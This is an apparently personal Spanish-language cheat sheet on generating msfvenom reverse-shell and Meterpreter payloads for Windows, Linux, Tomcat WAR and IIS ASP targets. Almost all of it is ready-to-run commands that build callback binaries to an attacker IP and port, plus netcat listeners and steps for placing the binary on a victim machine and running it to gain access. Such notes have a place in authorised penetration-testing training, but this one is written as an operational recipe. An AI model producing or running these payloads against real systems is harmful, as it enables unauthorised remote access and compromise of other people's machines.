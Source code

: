 # Msfvenom 

Tags: #Msfvenom #WebDav #Tomcat 

Msfconsole: Es una utilidad de línea de comando que puede ser usada para generar y encodear payloads MSF para varios sistemas operativos, así, como servidores web. Es la combinación de dos utilidades: Msfpayload y Msfencode. Podemos utilizar Msfvenom para generar payloads maliciosos en Meterpreter que pueden ser transferidos al sistema del cliente. Una vez ejecutados, harán una conexión a nuestro payload handler y nos proveerá un acceso remoto al sistema target.  

### Windows Meterpreter

* [MsfVenom-Payload](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/)

```bash
❯ msfvenom -p windows/x64/shell_reverse_tcp --platform windows -a x64 LHOST=172.0.0.1 LPORT=443 -f exe -o shell.exe 

	# p = Payload
	# f = Formato
	# o = Exportar como 
	# LHOST = Local Host (IP Atacante)
	# LPORT = Local Port Atacante
	# platform = Plataforma a usar
	# a = Arquitectura

❯ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.0.0.1 LPORT=443 -f exe > shell.exe
```

Teniendo ese binario malicioso lo debemos de pasar a la maquina victima con un servidor HTTP y en la maquina victima lo podemos descargar desde el navegador colocando la IP del servicio compartido

```bash 
❯ rlwrap nc -nlvp 443   # Nos ponemos en escucha por Netcat
```
* Ejecutamos el binario que subimos a Windows y ganamos acceso

### Linux Meterpreter

```bash 
# Esto funciona cuando tenemos el usuario y passwd de un usuario normal

❯ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=172.0.0.1 LPORT=443 -f elf > hola.elf

	# p = Payload
	# f = Formato
	# LHOST = Local Host (IP Atacante)
	# LPORT = Local Port Atacante
```

* Nos ponemos en escucha por Netcat:dows
```bash 
❯ nc -nlvp 443
```
* Ejecutamos el binario que subimos a Linux y ganamos acceso

## Tomcat 

```bash 
❯ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=443 -f war -o reverse.war

	# p = Payload
	# LHOST = Local Host (IP Atacante)
	# LPORT = Local Port 'Atacante'
	# f = Formato
	# o = Exportar como 
```

## IIS - WebDAV

```bash 
❯ msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.68.1 LPORT=1234 -f asp > shell.asp
	# p = payload 
	# f = formato

❯ msfvenom -p windows/shell/reverse_tcp LHOST=192.168.68.1 LPORT=1234 -f asp > shell.aspx
```